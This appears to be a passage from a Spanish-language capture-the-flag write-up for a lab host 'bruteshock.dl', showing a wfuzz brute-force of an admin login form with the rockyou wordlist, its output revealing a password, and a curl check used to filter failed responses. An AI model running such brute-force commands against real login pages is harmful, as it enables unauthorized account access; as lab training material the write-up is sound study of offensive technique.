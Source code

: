 

# Intrusión / Explotación
---
## Login Page Brute Forcing

Primeramente podemos intentar hallar la contraseña de un usuario `admin` (nombre común en sistemas) a través de un ataque de fuerza bruta al panel de autenticación usando `wfuzz`, si no tenemos éxito podemos intentar adivinar un nombre de usuario válido, aunq

~~~ bash
wfuzz -c --hl 69 -b "PHPSESSID=q2srkbctkotmpqecc9j7r3mpqa" -d "username=admin&password=FUZZ" -w /usr/share/wordlists/rockyou.txt -t 200 http://bruteshock.dl
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://bruteshock.dl/
Total requests: 14344392
=====================================================================
ID           Response   Lines    Word       Chars       Payload    
=====================================================================
000013635:   200        0 L      5 W        119 Ch      "christelle" 
~~~

- `--hl 69`: Ocultamos las respuestas con `69` líneas
- `-H`: Especificamos una cabecera HTTP
- `-d`: Definimos el contenido de los datos que enviaremos

En este caso, cada respuesta fallida posee un total de `69` líneas y un código de estado exitoso (`200`), es por eso que en vez de filtrar por código de estado, filtramos por la cantidad de líneas

~~~ bash
curl -sX POST http://bruteshock.dl -H 'Cookie: PHPSESSID=q2srkbctkotmpqecc9j7r3mpqa' -d 'username=test&password=test' | wc -l

69
~~~

En este caso hemos encontrado una contraseña `christelle` supuestamente válida para el usuario `admin`. Si iniciamos sesión, nos salta este recuadro con un mensaje del éxito
